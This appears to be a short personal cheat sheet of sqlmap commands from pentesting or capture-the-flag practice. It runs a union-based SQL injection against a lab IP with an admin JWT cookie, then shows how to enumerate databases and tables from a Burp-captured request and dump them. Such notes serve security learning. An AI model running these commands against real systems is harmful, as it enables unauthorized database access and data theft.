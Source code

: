 - Useful commands

```shell
sqlmap http://10.10.134.119/admin?user=3 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDc1NzM3Mzh9.EQ-QxUbiFb5WYxEP6e8izPs_r4iGouEevWSjuhE1ZaM' --technique=U --delay=2 -dump
```

- Command with a request with no query params on url:
	- First, copy the request captured with Burp to a file
	- Then:

```shell
sqlmap -r request.txt

# Then do
sqlmap -r request.txt --dbs

# Attack the database you want

sqlmap -r request.txt -D <TABLE_NAME> --tables --dump
```
